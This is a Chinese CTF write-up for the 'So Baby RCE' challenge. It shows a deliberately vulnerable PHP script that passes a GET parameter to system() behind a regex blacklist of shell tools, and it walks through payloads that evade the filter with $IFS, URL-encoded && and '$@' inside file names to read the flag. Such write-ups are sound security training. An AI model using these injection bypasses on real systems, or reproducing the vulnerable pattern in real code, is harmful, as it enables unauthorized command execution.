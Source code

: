 ```yaml
---
title: '[NewStarCTF 公开赛赛道]So Baby RCE'
date: 2025-02-20 21:33:50
tags: rce
categories: 刷题笔记
---
```


## [NewStarCTF 公开赛赛道]So Baby RCE

```
<?php
error_reporting(0);
if(isset($_GET["cmd"])){
    if(preg_match('/et|echo|cat|tac|base|sh|more|less|tail|vi|head|nl|env|fl|\||;|\^|\'|\]|"|<|>|`|\/| |\\\\|\*/i',$_GET["cmd"])){
       echo "Don't Hack Me";
    }else{
        system($_GET["cmd"]);
    }
}else{
    show_source(__FILE__);
}
```

过滤了很多函数，但没有过滤ls和cd

我们可以跳级来查看目录

由于过滤了空格，我们用`${IFS} $IFS $IFS$a `

```
?cmd=cd$IFS..&&ls     &&连接符先执行前面的后执行后面的
```

但并没有回显

 PHP的system函数和Web服务器如何处理URL编码的参数。当您通过URL传递参数时，Web服务器或PHP通常会对这些参数进行URL解码，将它们转换为相应的字符。这意味着，当您在URL中使用 %26%26 时，它会被解码为 &&，然后传递给 system 函数。

然而，如果 && 在URL中没有被正确解码，或者在某些情况下被解释为URL的一部分而不是命令的一部分，那么它可能不会被传递给 system 函数，因此不会有回显。

我们跳多级来看文件.

```
/?cmd=cd$IFS..%26%26cd${IFS}..%26%26cd${IFS}..%26%26ls
```

![image-20250220215334141](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502202153358.png)

到这里要查看ffff的内容cat被过滤可以

```
?cmd=cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26tac${IFS}ffff$@llllaaaaggggg
```

得到flag

